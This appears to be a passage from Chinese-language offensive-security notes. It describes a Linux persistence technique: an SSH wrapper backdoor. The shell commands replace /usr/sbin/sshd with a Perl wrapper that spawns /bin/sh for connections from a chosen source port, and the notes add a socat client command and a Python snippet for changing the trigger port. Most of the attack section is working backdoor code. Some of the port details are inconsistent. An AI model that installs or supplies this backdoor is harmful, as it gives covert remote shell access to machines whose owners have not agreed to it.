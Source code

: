 回到哑 shell 中；第三步，在哑 shell 中键入 Ctrl-l，执行：

```shell
reset
export SHELL=bash
export TERM=xterm-256color
stty rows 54 columns 104
```





## SSH后门

### SSH wrapper

被攻击机

> 首先启动的是/usr/sbin/sshd,脚本执行到getpeername这里的时候，正则匹配会失败，于是执行下一句，启动/usr/bin/sshd，这是原始sshd。原始的sshd监听端口建立了tcp连接后，会fork一个子进程处理具体工作。这个子进程，没有什么检验，而是直接执行系统默认的位置的/usr/sbin/sshd，这样子控制权又回到脚本了。此时子进程标准输入输出已被重定向到套接字，getpeername能真的获取到客户端的TCP源端口，如果是19526就执行sh给个shell
>
> 简单点就是从sshd fork出一个子进程，输入输出重定向到套接字，并对连过来的客户端端口进行了判断。

```shell
cd /usr/sbin/
mv sshd ../bin

# 会导致ssh不能用
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd  
echo 'exec{"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd

service sshd restart
```

>  \x00\x004A是13377的大端形式

攻击机

```shell
socat STDIO TCP4:IP:22,sourceport=port
```

![image-20230823151639936](../images/image-20230823151639936.png)

修改通信端口

```python
# python2
import struct
port = 19526
buffer = struct.pack('>I6',port)
print repr(buffer)

>>'\x00\x00LF'

echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..4A/);' >>sshd 
变为
echo 'exec "/bin/sh" if(getpeername(STDIN) =~ /^..LF/);' >>sshd 
```
